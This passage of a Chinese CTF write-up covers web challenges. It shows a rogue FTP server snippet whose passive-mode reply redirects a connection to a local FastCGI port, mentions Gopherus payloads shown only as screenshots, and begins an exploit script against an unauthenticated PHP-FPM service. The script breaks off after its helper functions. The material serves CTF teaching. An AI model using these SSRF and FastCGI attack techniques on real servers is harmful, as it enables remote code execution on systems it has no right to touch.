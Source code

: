 ```python
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()

```

然后gopherus生成payload：

![image-20220705174104878](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220705174104878.png)

直接打：（payload只要下划线后面的，不需要二次编码）

![image-20220705174135055](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220705174135055.png)

##  web812

考点：FPM的未授权访问

直接利用脚本打

```php
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
```